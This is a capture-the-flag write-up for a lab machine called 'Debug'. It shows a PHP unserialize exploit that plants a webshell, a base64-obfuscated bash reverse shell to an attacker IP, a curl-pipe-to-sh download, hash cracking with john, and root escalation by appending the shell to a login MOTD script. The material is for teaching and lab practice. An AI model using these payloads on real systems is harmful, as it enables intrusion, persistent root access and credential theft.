## TL;DR

In this challenge we fuzz the machine and find `index.php.bak`.
Then, we exploit php unserialize to get `RCE` and shell as `www-data`.

From there, we can find the password for `james` user inside `.htpasswd`, and then escalating to `root` using misconfiguration in login headers, which we can change to get code executed as `root` when login to the machine.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
|_  256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

we can add `debug.thm` to our `/etc/hosts` file.

### Find index.php.bak inside /backups folder

We start with `ffuf`, and can find the endpoint `/backup`:

```bash
──(agonen㉿kali)-[~/thm/Debug]
└─$ ffuf -u "http://debug.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://debug.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

javascript              [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 220ms]
backup                  [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 98ms]
grid                    [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 97ms]
less                    [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 94ms]
javascripts             [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 97ms]
```



When we go to `http://debug.thm/backup/`, we can see this directory indexing:



The most interesting file here is `index.php.bak`, let's download it, and then read it.

### Exploit PHP unserialization to achieve RCE

```php
┌──(agonen㉿kali)-[~/thm/Debug]                                                                                                                              
└─$ cat index.php.bak 
<?php                                          
                                       
class FormSubmit {                                                                                       
                                                                                                                                                                                                                                                                              
public $form_file = 'message.txt';             
public $message = '';                                                                                                                                                                                                                       
                                                                                                                      
public function SaveMessage() {        
                                                                              
$NameArea = $_GET['name'];                                                                                                                                   
$EmailArea = $_GET['email'];                                                                                                                                                                 
$TextArea = $_GET['comments'];                                                                
                                                                                                                                                                                             
        $this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";                                                                                                                                             
                                                                                                         
}                                                                                                                                                                                                                 
                                                                                                                                       
public function __destruct() {                                                                                                                               
                                                                                                                                                                                             
file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);                                                                                                                                                                                               
echo 'Your submission has been successfully saved!';                                                                                                                                         
                                                                                              
}                                              
                                                                                                                                                                                                                  
}                                                                                                        
                                                                                                                                                                                                                                            
// Leaving this for now... only for debug purposes... do not touch!                                                                    
                                               
$debug = $_GET['debug'] ?? '';                                                                                                         
$messageDebug = unserialize($debug);                                                                                                                                                                                                                                          
                                                    
$application = new FormSubmit;                                     
$application -> SaveMessage();                                     
                                                                                                                                                                                                                                            
                                                                                                                      
?>  
```

This is the specific code that is the most interesting:
```php
class FormSubmit {
    
    public $form_file = 'message.txt';             
    public $message = '';
    
    public function __destruct() {
        file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);                                          
        echo 'Your submission has been successfully saved!';
    }
}

$debug = $_GET['debug'] ?? '';                              
$messageDebug = unserialize($debug);
```

When the object is being destructed, it's writing the message into the file we specified.

We can create our malicious serialized object, and get `PHP Serialization` to upload our malicious `webshell.php`.

So, let's create our serialized object:
```php
┌──(agonen㉿kali)-[~/thm/Debug]
└─$ php -a                                                                                                                  
Interactive shell

php > class FormSubmit {public $form_file ='webshell.php';public $message = '<?php echo `$_GET[0]` ?>';};
php > $a = new FormSubmit();
php > echo serialize($a);
O:10:"FormSubmit":2:{s:9:"form_file";s:12:"webshell.php";s:7:"message";s:24:"<?php echo `$_GET[0]` ?>";}
php >
```

Here we created payload that will upload `webshell.php` with the content ``<?php echo `$_GET[0]` ?>``

Now, just visit this url:
```bash
http://debug.thm/index.php?debug=O:10:"FormSubmit":2:{s:9:"form_file";s:12:"webshell.php";s:7:"message";s:24:"<?php echo `$_GET[0]` ?>";}
```

And just go to `http://debug.thm/webshell.php?0=id`, when specify the command in `0` url parameter.



We can use the payload from `penelope` for reverse shell:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```

We inserted this into `revshell.sh`, and then uploaded and executed it.



```bash
http://debug.thm/webshell.php?0=curl%20http://10.9.2.147:8082/revshell.sh|sh
```

and we got the reverse shell



### Find james's hash inside /var/www/html/.htpasswd

when executing linpeas using `run peass_ng` in penelope, we can find this.



```bash
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 www-data www-data 44 Mar  9  2021 /var/www/html/.htpasswd                                                                                                                                                                     
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```

We can crack this hash with `john` very quickly



```bash
┌──(agonen㉿kali)-[~/thm/Debug]
└─$ john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
jamaica          (?)     
1g 0:00:00:00 DONE (2025-11-19 19:39) 50.00g/s 38400p/s 38400c/s 38400C/s evelyn..james1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now, let's connect using `ssh` to `james`, with these credentials:
```bash
james:jamaica
```



and grab `user.txt`:

```bash
james@osboxes:~$ cat user.txt 
7e37c84a66cc40b1c6bf700d08d28c20
```

### Privilege Escalation to Root using header login change

again, we execute linpeas, and looking for interesting staff.

When scrolling, something jumped to my eye, i saw this:



As we can see, we can change the files in the directory `/etc/update-motd.d/`.

```bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files                                                                                                                                           
  Group james:                                                                                                                                                                                                                             
/etc/update-motd.d/10-help-text                                                                                                                                                                                                            
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/98-fsck-at-reboot
/etc/update-motd.d/98-reboot-required
/etc/update-motd.d/00-header
#)You_can_write_even_more_files_inside_last_directory
```

I checked whether it is true, and also what the files are



Okay, this is what I found on google:

> /etc/update-motd.d
is a directory in Linux systems, primarily used by the update-motd framework, which contains scripts to dynamically generate the "Message of the Day" (MOTD) that appears when a user logs in. These scripts are executed in alphabetical order by a cron job, and their output is concatenated to create a single MOTD message.

we can add our reverse shell to `00-header`, and then when connecting again using `ssh`, during the login it'll get executed under root permissions.

```bash
james@osboxes:/etc/update-motd.d$ echo -e 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash' >> 00-header
james@osboxes:/etc/update-motd.d$ cat 00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

if [ -z "$DISTRIB_DESCRIPTION" ] && [ -x /usr/bin/lsb_release ]; then
        # Fall back to using the very slow lsb_release utility
        DISTRIB_DESCRIPTION=$(lsb_release -s -d)
fi

printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```

Now, let's login again using `ssh`, and then we got the root shell.



and grab the root flag

```bash
root@osboxes:/root# cat root.txt 
3c8c3d0fe758c320d158e32f68fabf4b
```

